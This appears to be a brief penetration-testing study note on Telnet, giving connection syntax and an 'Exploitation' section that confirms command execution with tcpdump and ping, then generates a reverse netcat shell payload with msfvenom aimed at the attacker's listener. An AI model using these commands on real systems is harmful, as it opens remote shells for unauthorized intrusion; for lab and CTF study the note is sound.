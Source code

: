 # Telnet

Via a telnet client, connect to and execute commands on a remote machine that's hosting a telnet server. Sends all messages in __clear text__.

```bash
telnet [IP] [PORT]
telnet 10.10.10.3 23
```

## Exploitation

* Start a tcpdump listener on attacking machine:

```bash
sudo tcpdump ip proto \\icmp -i eth0
```

* From target telnet session:

```bash
ping [attack_ip] -c 1
```

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```
